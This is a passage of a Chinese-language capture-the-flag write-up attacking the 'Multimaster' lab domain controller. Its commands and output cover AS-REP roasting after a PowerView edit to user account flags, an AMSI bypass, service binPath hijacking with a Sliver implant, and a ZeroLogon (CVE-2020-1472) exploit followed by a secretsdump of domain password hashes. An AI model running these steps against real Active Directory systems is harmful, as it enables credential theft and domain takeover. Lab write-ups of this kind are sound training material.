Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain MEGACORP.LOCAL using path CN=Schema,CN=Configuration,DC=MEGACORP,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 27 MB RAM
Status: 94 objects finished (+94 8)/s -- Using 35 MB RAM
Enumeration finished in 00:00:00.3710283
Compressing data to .\20220628060504_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 6:05 AM on 6/28/2022! Happy Graphing!

```

从导出的数据中分析，`sbauer`用户的`sid`为`S-1-5-21-3167813660-1240564177-918740779-3102`。我们可以使用这个`sid`在导出的数据中进行搜索

```json
{
  "PrincipalSID": "S-1-5-21-3167813660-1240564177-918740779-3102",
  "PrincipalType": "User",
  "RightName": "GenericWrite",
  "AceType": "",
  "IsInherited": false
}
```
可以发现当前用户对`JORDEN@MEGACORP.LOCAL`用户具有`GenericWrite`权限，接着查看`JORDEN@MEGACORP.LOCAL`的用户组，属于`Server Operators`用户组，该组的权限是比较高的。




这里我们可以修改`jorden`用户的属性，取消`kerberos`的预验证，然后可以使用`AS-REP`来获取`hash`进行破解。

这里需要配合`powerview`来进行属性修改

```
*Evil-WinRM* PS C:\programdata> Bypass-4MSI
[+] Success!
*Evil-WinRM* PS C:\programdata> Import-Module ./PowerView.ps1
*Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536


*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=MEGACORP,DC=LOCAL
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'
*Evil-WinRM* PS C:\programdata> Get-DomainUser jorden | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536
DONT_REQ_PREAUTH               4194304

```

接着发起`kerberoast`攻击
```
└─$ impacket-GetNPUsers MEGACORP.LOCAL/jorden -no-pass -format hashcat -dc-ip 10.10.10.179
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for jorden
$krb5asrep$23$jorden@MEGACORP.LOCAL:4d6a694d8650d9d5a47c09b28f19f9e2$abb60819b79394315ee4bcc7ad48c9313f2847d4df56ed0ba6419846c43d1ee3a869bfbb36497a680b42db0113676bc4e5f139acafa0049b13a23c2a064078c3e1f2a1c20d7ce0a565ab69901ec309abd08964e7eb68093b980a9246f84d336e716fc4a8f7c180b5a695023f2a0ccac7bf6f7940133a406d9222e8669adb71afadd85c90cb5732701f85bc83fb325519b866d211f060a19205cf50eabb4056c3f31b5feaa5ef99b6250c916ba0f6365c5830cc4004c8bb9a8b16d6b2127bec66fd462fb46f6d8c63e1832d8ef443b793d765957b64ae83cd46e4f50c10e4c498b7633a1a474f22e8964205a0e20dfd49

...

$krb5asrep$23$jorden@MEGACORP.LOCAL:4d6a694d8650d9d5a47c09b28f19f9e2$abb60819b79394315ee4bcc7ad48c9313f2847d4df56ed0ba6419846c43d1ee3a869bfbb36497a680b42db0113676bc4e5f139acafa0049b13a23c2a064078c3e1f2a1c20d7ce0a565ab69901ec309abd08964e7eb68093b980a9246f84d336e716fc4a8f7c180b5a695023f2a0ccac7bf6f7940133a406d9222e8669adb71afadd85c90cb5732701f85bc83fb325519b866d211f060a19205cf50eabb4056c3f31b5feaa5ef99b6250c916ba0f6365c5830cc4004c8bb9a8b16d6b2127bec66fd462fb46f6d8c63e1832d8ef443b793d765957b64ae83cd46e4f50c10e4c498b7633a1a474f22e8964205a0e20dfd49:rainforest786
```

破解得到密码 `rainforest786`

## 提权

查看当前用户权限

```
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

### 方法1

具有备份权限，可以尝试下备份`ntds`文件
```
*Evil-WinRM* PS C:\windows\temp> diskshadow /s priv.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  MULTIMASTER,  6/28/2022 8:04:32 AM

-> set context persistent nowriters
-> add volume c: alias temp

COM call "(*vssObject)->InitializeForBackup" failed.
```

但是失败了，直接使用`robocopy`备份管理员桌面

```
robocopy /b c:\users\administrator\desktop .
```

成功获得`root.txt`


### 方法2

从[官方文档](https://docs.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)#server-operators)中，我们可以知道该组的用户可以启动，停止服务。

使用`winpeas`，我们可以看到一些信息如下，我们的用户可以修改一些服务的注册表信息

```
Check if you can modify the registry of a service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-permissions
HKLM\system\currentcontrolset\services\.NET CLR Data (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\.NET CLR Networking (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\.NET CLR Networking 4.0.0.0 (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\.NET Data Provider for Oracle (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\.NET Data Provider for SqlServer (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\.NET Memory Cache 4.0 (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\.NETFramework (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\1394ohci (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\3ware (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\ACPI (Server Operators [WriteKey GenericWrite])
HKLM\system\currentcontrolset\services\AcpiDev (Server Operators [WriteKey GenericWrite])
...
...
```

经过测试可以使用`browser`服务来达到提权的目的，但是很快会话就丢失了。

```
*Evil-WinRM* PS C:\windows\temp> sc.exe config browser binPath="C:\windows\temp\s.exe"
*Evil-WinRM* PS C:\windows\temp> sc.exe stop browser

SERVICE_NAME: browser
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0xafc8
*Evil-WinRM* PS C:\windows\temp> sc.exe start browser
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

```

会话丢失
```
[server] sliver (WHISPERING_DUNE-BUGGY) > whoami

Logon ID: NT AUTHORITY\SYSTEM
[*] Current Token ID: NT AUTHORITY\SYSTEM
[!] Lost session f1f80203 WHISPERING_DUNE-BUGGY - 10.10.10.179:50832 (MULTIMASTER) - windows/386 - Tue, 28 Jun 2022 08:33:00 PDT

[!] Active session disconnected
```

### 方法3

可以使用`ZeroLogon`漏洞

```
┌──(kali㉿kali)-[~/Tools/CVE-2020-1472]
└─$ python3 CVE-2020-1472.py multimaster 10.10.10.179
Performing authentication attempts...
============================================================================================================================
Success! DC can be fully compromised by a Zerologon attack.
Trying to reseting machine password..
Sending the new password
Success
                                                                                                                                                
┌──(kali㉿kali)-[~/Tools/CVE-2020-1472]
└─$ impacket-secretsdump -no-pass -just-dc MULTIMASTER\$@10.10.10.179
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
MEGACORP.LOCAL\tushikikatomo:1110:aad3b435b51404eeaad3b435b51404ee:1c9c8bfd28d000e8904f23c280b25d21:::
MEGACORP.LOCAL\andrew:1111:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
MEGACORP.LOCAL\lana:1112:aad3b435b51404eeaad3b435b51404ee:3c3c292710286a539bbec397d15b4680:::
MEGACORP.LOCAL\alice:1601:aad3b435b51404eeaad3b435b51404ee:19b44ab9ec562fe20b35ddb7c6fc0689:::
MEGACORP.LOCAL\dai:2101:aad3b435b51404eeaad3b435b51404ee:cb8a655c8bc531dd01a5359b40b20e7b:::
MEGACORP.LOCAL\svc-sql:2102:aad3b435b51404eeaad3b435b51404ee:3a36abdc15d86766d4cd243d8557e10d:::
MEGACORP.LOCAL\sbauer:3102:aad3b435b51404eeaad3b435b51404ee:050ba67142895b5844a24d5ce9644702:::
```


## 参考链接

[https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[https://bugs.chromium.org/p/project-zero/issues/detail?id=1944&q=&colspec=ID%20Status%20Restrict%20Reported%20Vendor%20Product%20Finder%20Summary](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944&q=&colspec=ID%20Status%20Restrict%20Reported%20Vendor%20Product%20Finder%20Summary)


[http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)


[https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html)